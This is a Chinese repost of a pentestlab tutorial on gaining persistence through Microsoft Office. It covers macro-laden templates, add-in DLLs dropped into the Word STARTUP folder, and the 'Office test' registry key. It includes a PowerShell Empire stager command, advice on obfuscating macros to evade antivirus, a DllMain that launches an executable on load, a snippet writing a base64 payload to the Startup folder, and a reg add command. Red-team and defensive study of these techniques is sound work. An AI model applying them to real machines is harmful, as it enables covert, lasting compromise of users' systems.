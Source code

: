 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/SZPmGDfDIpK3fP5nlHUcMA)

[![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAfcKMst8DIrjHAe2Ntwl8LP3l3ja18BQ8Ece5ru3qV9TEEYiavuJvgzAgu9sXB5QXgVk83E1MgcJbSA/640?wx_fmt=png)](http://mp.weixin.qq.com/s?__biz=MzI5MDQ2NjExOQ==&mid=2247494477&idx=1&sn=455f152637b474c0895388fa7120f9ec&chksm=ec1ddb65db6a527347fb2ba24d96fea3aa01b493ec777ffecc94999dbc8d47e974aea7e09239&scene=21#wechat_redirect)

Microsoft Office 是 Windows 操作系统中使用最多的产品，用来完成每日的工作，比如 HR 筛选简历、销售人员编写标书、汇报工作编写演示文稿等。如何利用 Office 软件的功能实现权限持久化呢？

### Office 模板

对于企业而言，都喜欢使用统一的模板文件，在每次启动 Office 软件时加载模板，模板文件存储在下面的位置：

> C:\Users\pentestlab\AppData\Roaming\Microsoft\Templates

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAfc0DRmiam9Y14gOlKET11TOmW7M3pUX0lbWZThzpQZmnsQ73iaqAwLZrNHW90h1ibBx7nicMibsuw24ZpQ/640?wx_fmt=png)

如果恶意宏嵌入到基础模板中，用户在每次启动 Office 软件时，都执行一下恶意的宏代码，可以使用 PowerShell Empire 中的模块生成宏代码：

> usestager windows/macro set Listener http execute

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAfc0DRmiam9Y14gOlKET11TOmaEdlrJ6aCgdlB7qIFxZG2htibbD9OyRWwU9hJcgp0bzHOwXN2eoXDHQ/640?wx_fmt=png)

生成的宏可以直接插入到模板文档中，对代码进行混淆可以绕过一些防病毒的检测：

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAfc0DRmiam9Y14gOlKET11TOmcsvJqU0KREibGVv4o5RHyCLWDs6uOgkqVMdxnoQqDdQiaZH38yznuIMg/640?wx_fmt=png)

当用户打开模板文件时，执行 Office 宏代码，可以看到目标连接的 Session：

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAfc0DRmiam9Y14gOlKET11TOm2DmSJdookvOwMynR04EUpHJGMShQaCEFEuLbK3xDIiaKp9wx2lfq2mg/640?wx_fmt=png)

### 外部插件

Office 外部插件用于扩展 Office 程序的功能。当 Office 应用程序启动时，会对存储外部插件的文件夹进行检查，以便应用程序加载它们。执行以下命令来发现 Microsoft Word 的可信位置，也可以删除外部插件。

> Get-ChildItem "hkcu:\Software\Microsoft\Office\16.0\Word\Security\Trusted Locations"

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAfc0DRmiam9Y14gOlKET11TOmVibMdDxjWFoYhkUdalfCicMbtiaaXmXocXBz3Elan9jfrpzlbNrPib3mGQ/640?wx_fmt=png)

Office 的外部插件是 DLL 文件，扩展名不同，表示使用不同的应用程序，例如 **.wll** 代表 Word，**.xll** 代表 Excel。Metasploit Framework 的 “msfvenom” 可用于创建可被使用的 DLL 文件，然后将扩展名修改为“**.wll**”（Word 插件程序的扩展名），并将文件移动到 Word 启动文件夹，每次 Word 启动时执行外部插件：

> C:\Users\Admin\AppData\Roaming\Microsoft\Word\STARTUP

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAfc0DRmiam9Y14gOlKET11TOmo0pbBAp1VEhpUgZf9uaIIPvVMlY4mV1GMJ3DoGut9hvvKDFsMVOmQg/640?wx_fmt=png)

代码执行后，meterpreter 会得到一个回连 Session，但是 word 会崩溃，这对于用户来说能够知道，Word 可能被人破坏或者修改，容易引起用户的警觉：

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAfc0DRmiam9Y14gOlKET11TOmsM5jxOCB3OUf78Q3zhwcdGYOJxMoDSqx0hdrsRo5GFOJrfic3sA0TAg/640?wx_fmt=png)

最好的方法是创建一个不会导致应用程序崩溃的自定义 DLL 文件

**DLL_PROCESS_ATTACH** 可以把 DLL 加载到当前进程的虚拟地址空间（Word、Excel、PowerPoint 等），DLL 一旦被加载，就可以启动任意可执行的文件：

```
// dllmain.cpp : Defines the entry point for the DLL application.
#include "pch.h"
#include <stdlib.h>
 
BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        system("start pentestlab32.exe");
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAfc0DRmiam9Y14gOlKET11TOmWXVibYEhsia8GUibQsnnc5TYzyfhbawWg0AVpYsGKbibVScBQUQMHxI8QA/640?wx_fmt=png)

Word Add-Ins 具有 “**.wll**” 文件的扩展名，本质上是放置在 Word 启动文件夹中的 DLL 文件，每次 Microsoft Word 启动时都会加载：

> C:\Users\Admin\AppData\Roaming\Microsoft\Word\STARTUP

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAfc0DRmiam9Y14gOlKET11TOmtTaOmRHlPMGDmfpH63Q4968E5SztBtJURLYroSa4reFj9zibFoxrLHw/640?wx_fmt=png)

下次 Word 启动时，将加载加载 DLL 程序，并执行恶意文件：

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAfc0DRmiam9Y14gOlKET11TOm90KUpYcVVttSbqkk7yBcYCkUuwB8JyMynuFHaqibsHaaWOKPcIibo3og/640?wx_fmt=png)

还有个 Powershell 版本的脚本，可以生成相关文件（WLL、XLL、VBA）。并将这些文件复制到 Word、Excel 或 PowerPoint 的启动文件夹中：

下载地址：

> https://github.com/3gstudent/Office-Persistence

使用方法：

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAfc0DRmiam9Y14gOlKET11TOmiaFm5DZ1nH7OVpNCTiaoYAw0Mu1ibYYdabbYydo43qMRkDDVJfVFxtImw/640?wx_fmt=png)

默认情况下，脚本生成的程序主要是用来弹出计算器，用户验证持久化的能力：

```
$fileContentBytes = [System.Convert]::FromBase64String($fileContent) 
[System.IO.File]::WriteAllBytes($env:APPDATA+"\Microsoft\Word\Startup\calc.wll",$fileContentBytes)
```

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAfc0DRmiam9Y14gOlKET11TOm37jia95nX00vbImeurjOBFmk7OCI4k8yrsCR8MibIOQl6QfBgdWaeRcA/640?wx_fmt=png)

### Office test

在注册表中创建一个注册表项，在 Office 软件启动时，会自动加载该注册表项中指定的 DLL 文件，创建命令如下：

> reg add "HKEY_CURRENT_USER\Software\Microsoft\Office test\Special\Perf" /t REG_SZ /d C:\tmp\pentestlab.dll

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAfc0DRmiam9Y14gOlKET11TOm9iabgdr1icvy01SlvFzIOZPZ53FYseiaIJTI9jESqIpc6YjcO31mF3fDg/640?wx_fmt=png)

该命令将创建以下注册表结构：

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAfc0DRmiam9Y14gOlKET11TOmOZd8Qt86KQc0BVF4ibev6vcZRoVExfnhQTLFpVAW5QK4xJcPUk2s51g/640?wx_fmt=png)

当 Microsoft Office 应用程序再次启动时，DLL 被执行：

![](https://mmbiz.qpic.cn/mmbiz_png/sGfPWsuKAfc0DRmiam9Y14gOlKET11TOmqxkBSG9mKLGsh3Lr2If3Z1icgz8ibGhKGRZFQUVmVXyfyh9ok16JcIgQ/640?wx_fmt=png)

### 参考文献

https://attack.mitre.org/techniques/T1137/

https://docs.microsoft.com/zh-cn/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa

https://enigma0x3.net/2014/01/23/maintaining-access-with-normal-dotm/

https://github.com/3gstudent/Office-Persistence

https://www.mdsec.co.uk/2019/05/persistence-the-continued-or-prolonged-existence-of-something-part-1-microsoft-office/

https://github.com/Pepitoh/VBad

https://github.com/outflanknl/EvilClippy

https://github.com/christophetd/spoofing-office-macro

https://blog.christophetd.fr/building-an-office-macro-to-spoof-process-parent-and-command-line/

https://outflank.nl/blog/2019/05/05/evil-clippy-ms-office-maldoc-assistant/

http://www.hexacorn.com/blog/2014/04/16/beyond-good-ol-run-key-part-10/

https://www.221bluestreet.com/post/office-templates-and-globaldotname-a-stealthy-office-persistence-technique

https://labs.f-secure.com/archive/add-in-opportunities-for-office-persistence/

https://github.com/enigma0x3/Generate-Macro

https://www.mdsec.co.uk/2019/01/abusing-office-web-add-ins-for-fun-and-limited-profit/

https://3gstudent.github.io/3gstudent.github.io/Use-Office-to-maintain-persistence/

https://3gstudent.github.io/3gstudent.github.io/Office-Persistence-on-x64-operating-system/

### 原文链接

> 文章翻译来源：pentestlab
> 
> 链接：https://pentestlab.blog/2019/12/11/persistence-office-application-startup/

 ![](http://wx.qlogo.cn/finderhead/Q3auHgzwzM52neibQP42rLoUiaPOuaLeiaKmgd9W4LBC9OwGCjk3rYI7g/0) **信安之路** 信安之路成长平台通过任务驱动学习信息安全技术，完成任务之后横向扩展学习他人经验，形成闭环，逐步提升，主要方向分为 web 安全、红队技术和脚本开发  公众号

![](https://mmbiz.qpic.cn/mmbiz_gif/sGfPWsuKAfeYwjJqZiawVOoPhFXUqypbLIMib9dGbe001zcXZuSsaIBqulE92WQKq1YGOv7POdTUux9yNZe0e3dA/640?wx_fmt=gif)